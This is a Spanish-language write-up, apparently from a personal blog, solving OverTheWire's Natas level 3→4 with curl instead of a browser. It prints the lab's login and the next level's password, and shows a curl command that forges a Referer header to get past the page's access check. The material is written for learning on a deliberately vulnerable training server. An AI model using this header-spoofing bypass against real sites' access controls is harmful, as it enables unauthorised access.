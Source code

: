 ```yaml
---
title: OverTheWire - Natas 3 -> 4 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 3 -> 4 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas4
Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
URL:      http://natas4.natas.labs.overthewire.org
```

# Solución
---


Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas3-4-3.png)

Vemos que al final de la página nos da instrucciones para visualizar la contraseña del siguiente nivel. Nos señala que solo los usuarios que vengan desde "http://natas5.natas.labs.overthewire.org/" pueden ver la contraseña.

![](/images/images-otw-natas/natas3-4-1.png)

Si agregamos la cabecera `Referer: http://natas5.natas.labs.overthewire.org/` podremos ver la contraseña, y con el parámetro `-H` agregamos esta cabecera a nuestro comando de curl.

Con este comando resolvemos el reto:

```bash
curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -H 'Referer: http://natas5.natas.labs.overthewire.org/'
```

![](/images/images-otw-natas/natas3-4-2.png)

# Contraseña
---

`iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

---

## [Anterior](/level-2-3)
## [Siguiente](/level-4-5)